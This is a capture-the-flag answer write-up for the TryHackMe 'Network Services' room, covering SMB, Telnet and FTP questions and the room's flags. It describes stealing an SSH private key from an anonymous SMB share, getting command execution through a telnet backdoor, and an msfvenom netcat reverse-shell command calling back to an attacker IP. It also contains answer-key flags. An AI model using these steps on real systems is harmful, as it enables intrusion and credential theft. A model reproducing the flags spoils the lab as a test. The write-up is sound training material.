#  TryHackMe - Network Services (Room 015)

## Please try and answer all questions before looking at the answers to test your knowledge :)

<details><summary>Task 1 - Understanding SMB</summary>
<p>

## Task 1.1

### Q: What does SMB stand for?

A: Server Message Block Protocol

## Task 1.2

### Q: What type of protocol is SMB?

A: Response-Request

## Task 1.3

### Q: What do clients connect to servers using?

A: TCP/IP

## Task 1.4

### Q: What systems does Samba run on?

A: Unix

</p>
</details>

<details><summary>Task 2 - Enumerating SMB</summary>
<p>
	
## Task 2.1

### Q: Conduct an __nmap__ scan of your choosing. How many ports are open?

A: 3

![](/Network%20Services/images/nmap.png)

## Task 2.2

### Q: What port is SMB running on?

A: 139/445

## Task 2.3

### Q: Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the WORKGROUP name?

A: WORKGROUP

![](/Network%20Services/images/WORKGROUP.png)


## Task 2.4

### Q: What comes up as the __name__ of the machine?

A: POLOSMB

![](/Network%20Services/images/polosmb.png)

## Task 2.5

### Q: What operating system version is running?

A: 6.1

## Task 2.6

### Q: What share sticks out as something we might want to investigate?

A: profiles

![](/Network%20Services/images/profiles.png)

</p>
</details>

<details><summary>Task 3 - Exploiting SMB</summary>
<p>
	
## Task 3.1

### Q: What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?

A: smbclient //10.10.10.2/secret -U suit -p 445

## Task 3.3

### Q: Let's see if our interesting share has been configured to allow anonymous access - that it does not require authentication to view the files. We can do this easily by:

	* using the username "anonymous"
	* connecting to the share we found during the enumeration stage
	* and not supplying a password

Does the share allow anonymous access? Y/N?

A: Y

![](/Network%20Services/images/smbclient.png)

## Task 3.4

### Q: Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?

A: John Cactus

![](/Network%20Services/images/john.png)

## Task 3.5

### Q: What service has been configured to allow him to work from home?

A: SSH

## Task 3.6

### Q: Okay! Now that we know this, what directory on the share should we look in?

A: .ssh

## Task 3.7

### Q: This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?

A: id_rsa

## Task 3.8

### Q: Download this file to your local machine and change the permissions to 600. Now, use the information you have already gathered to work out the username of the account. Then use the service and key to log-in to the server. What is the smb.txt flag?

A: THM{smb_is_fun_eh?}

![](/Network%20Services/images/ssh.png)

</p>
</details>

<details><summary>Task 4 - Understanding Telnet</summary>
<p>
	
## Task 4.1

### Q: What is Telnet?

<details><summary>Answer</summary>
<p>

A: Application Protocol

</p>
</details>

## Task 4.2 

### Q: What has slowly replaced Telnet?

<details><summary>Answer</summary>
<p>
	
SSH

</p>
</details>

## Task 4.3

### Q: How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?

<details><summary>Answer</summary>
<p>
	
telnet 10.10.10.3 23

</p>
</details>

## Task 4.4

### Q: The lack of what means that all Telnet communication is in plaintext?

<details><summary>Answer</summary>
<p>
	
Encryption

</p>
</details>

</p>
</details>

<details><summary>Task 5 - Enumerating Telnet</summary>
<p>
	
## Task 5.1

### Q: How many ports are open on the target machine?

<details><summary>Answer</summary>
<p>

1

![](/Network%20Services/images/nmap2.png)

</p>
</details>

## Task 5.2

### Q: What port is this?

<details><summary>Answer</summary>
<p>

8012

</p>
</details>

## Task 5.3

### Q: This port is unassigned, but still lists the protocol it is using, what protocol is this?

<details><summary>Answer</summary>
<p>

TCP

</p>
</details>

## Task 5.4

### Q: Now re-run the namp scan without the -p- flag. How many ports show up as open?

<details><summary>Answer</summary>
<p>
	
0

![](/Network%20Services/images/closed.png)

</p>
</details>

## Task 5.5 - no answer needed

### Here, we see that by assigning Telnet to a __non-standard port__ it is not part of the common ports list or top 1000 ports that nmap scans. It is important to try every angle when enumerating as the information you gather here will inform your exploitation stage

## Task 5.6

### Q: Based on the title returned to us, what do we think this port could be used for?

<details><summary>Answer</summary>
<p>
	
A backdoor

![](/Network%20Services/images/backdoor.png)

</p>
</details>

## Task 5.7

### Q: Who could it belong to? Gathering possible usernames is an important step in enumeration?

<details><summary>Answer</summary>
<p>
	
Skidy

</p>
</details>

## Task 5.8 - no answer needed

### Always keep a note of information you find during your enumeration stage, so you can refer back to it when you move on to try exploits

</p>
</details>

<details><summary>Task 6 - Exploiting Telnet</summary>
<p>
	
## Task 6.1 - no answer needed

### Okay, let's try and connect to this telnet port

## Task 6.2

### Q: Great! It's an open telnet connection. What welcome message do we receive?

<details><summary>Answer</summary>
<p>
	
SKIDY'S BACKDOOR

![](/Network%20Services/images/skidy.png)

</p>
</details>

## Task 6.3

### Q: Let's try executing some commands. Do we get a returnon any input we enter into the telnet session (Y/N)

<details><summary>Answer</summary>
<p>

N

![](/Network%20Services/images/run.png)

</p>
</details>

## Task 6.4 - no answer needed

### Q: That's strange. Let's check to see if what we are typing is being executed as a system command

## Task 6.5 - no answer needed

### Q: Start a tcpdump listener on your local machine using `sudo tcpdump ip proto \\icmp -i tun0` - this starts a tcpdump listener specifically listening for ICMP traffic which ping operates on

## Task 6.6

### Q: Now, use the command `ping [local tun0 ip] -c 1` through the telnet session to see if we are able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

<details><summary>Answer</summary>
<p>
	
Y

![](/Network%20Services/images/ping.png)

</p>
</details>

## Task 6.7 - no answer needed

### Q: Great! This means we are able to execute system commands AND that we are able to reach our local machine

## Task 6.8

### Q: We are going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. Here's our syntax

	`msfvenom -p cmd/unix/reverse_netcat lhost=10.11.3.112 lport=4444 R`

Flag | Description
------------ | -------------
-p | payload
lhost | our local host IP
lport | the port to listen on
R | export the payload in RAW format

What word does the generated payload start with?

<details><summary>Answer</summary>
<p>
	
mkfifo

![](/Network%20Services/images/mkfifo.png)

</p>
</details>

## Task 6.8

### Q: Perfect. We are nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using

	`nc -vlp [listening port]`

What would the command look like for the listening port we selected?

<details><summary>Answer</summary>
<p>
	
nc -lvp 4444

</p>
</details>

## Task 6.10 - no answer needed

### Q: Great! Now that's running we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully - this will give us a shell on the target machine

## Task 6.11

### Q: Success! What is the contents of flag.txt?

<details><summary>Answer</summary>
<p>
	
THM{y0u_g0t_th3_t3ln3t_fl4g}

![](/Network%20Services/images/telnet_flag.png)

</p>
</details>

</p>
</details>

<details><summary>Task 7 - Understanding FTP</summary>
<p>
	
## Task 7.1

### Q: What communications model does FTP use?

<details><summary>Answer</summary>
<p>
	
client-server	

</p>
</details>	

## Task 7.2

### Q: What is the standard FTP port?

<details><summary>Answer</summary>
<p>
	
21

</p>
</details>

## Task 7.3

### Q: How many modes of FTP connection are there?

<details><summary>Answer</summary>
<p>
	
2	

</p>
</details>

</p>
</details>

<details><summary>Task 8 - Enumerating FTP</summary>
<p>
	
## Task 8.1

### Q: Run an nmap scan. How many ports are open on the target machine?

<details><summary>Answer</summary>
<p>
	
2

</p>
</details>

## Task 8.2

### Q: What port is FTP running on?

<details><summary>Answer</summary>
<p>
	
21

</p>
</details>

## Task 8.3

### Q: What variant of FTP is running on it?

<details><summary>Answer</summary>
<p>
	
vsftpd

![](/Network%20Services/images/vsftpd.png)
	
</p>
</details>

## Task 8.4

### Great! Now that we know that type of FTP server we are dealing with we can check to see if we are able to login anonymously to the FTP server

We can do this by typoing `ftp [IP]` into the console and entering anonymous as the username and no password

What is the name of the file in the anonymous FTP directory?

<details><summary>Answer</summary>
<p>
	
PUBLIC_NOTICE.txt

![](/Network%20Services/images/notice.png)
	
</p>
</details>

## Task 8.5

### Q: What do we think a possible username could be?

<details><summary>Answer</summary>
<p>

mike

![](/Network%20Services/images/mike.png)

</p>
</details>

## Task 8.6 - no answer needed

### Q: Great! Now we have got details about the FTP server and a possible username

</p>
</details>

<details><summary>Task 9 - Exploiting FTP</summary>
<p>
	
## Task 9.1

### Q: What is the password for the user "mike"?

<details><summary>Answer</summary>
<p>
	
password

![](/Network%20Services/images/hydra.png)

</p>
</details>

## Task 9.2 - no answer needed

### Q: Bingo! Now, let's connect to the FTP server as this user using `ftp [IP]` and entering the credentials when prompted

## Task 9.3

### Q: What is ftp.txt?

<details><summary>Answer</summary>
<p>
	
THM{y0u_g0t_th3_ftp_fl4g}

![](/Network%20Services/images/flag.png)

</p>
</details>

</p>
</details>